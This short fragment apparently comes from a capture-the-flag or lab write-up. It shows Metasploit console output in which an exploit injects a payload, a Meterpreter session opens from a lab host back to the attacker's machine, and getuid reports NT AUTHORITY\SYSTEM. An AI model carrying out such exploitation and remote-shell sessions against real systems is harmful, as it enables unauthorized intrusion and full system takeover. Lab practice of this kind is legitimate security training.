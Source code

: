 ```r
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 4 opened (10.10.14.5:1338 -> 10.10.10.5:49162) at 2020-08-28 17:15:56 +0000


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```